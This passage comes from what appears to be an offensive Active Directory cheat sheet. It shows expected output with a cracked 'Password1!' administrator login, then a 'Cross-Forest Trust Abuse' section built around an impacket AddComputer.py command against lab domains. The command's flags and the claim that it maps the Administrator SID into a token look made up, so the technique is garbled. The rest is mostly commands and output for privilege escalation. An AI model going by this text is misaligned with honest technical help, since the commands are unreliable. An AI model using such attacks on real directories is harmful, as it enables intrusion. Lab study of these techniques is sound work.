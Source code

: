     ```
    
    _Expected Output Snippet:_
    
    ```text
    PARENT\\administrator:Password1! (SMB)  
    [+] Logged in as PARENT\\administrator (SID S-1-5-21-...).
    
    ```
    

----------

### 3. Cross-Forest Trust Abuse (Linux & Windows)

_Bypass SID filtering to impersonate high-privilege accounts in another forest._

#### Key Concepts

-   **SID Filtering Bypass**  
    When disabled, users can add arbitrary SIDs to their token to escalate privileges across forests.
    

#### Tools & Commands

-   **impacket-AddComputer.py**
    
    ```bash
    # Command breakdown:
    # PARENT.lab.local/user:Pass => Credentials used (a user in parent domain)
    # -target-domain CHILD.lab.local    => Domain being joined/impersonated
    # -target-user 'lab\Administrator' => Account in target domain to impersonate
    AddComputer.py PARENT.lab.local/user:Pass \
      -target-domain CHILD.lab.local -target-user 'lab\Administrator'
    
    ```
    
    _What happens?_
    
    -   The tool uses ParentDomainUser credentials to authenticate to CHILD.lab.local.
        
    -   It forges a machine account in CHILD and maps the Administrator SID into the token, effectively letting you log in as CHILD\Administrator.
        
    
    _Expected Output Snippet:_
    
    ```text
    [+] Domain joined: CHILD.lab.local as lab\Administrator
    
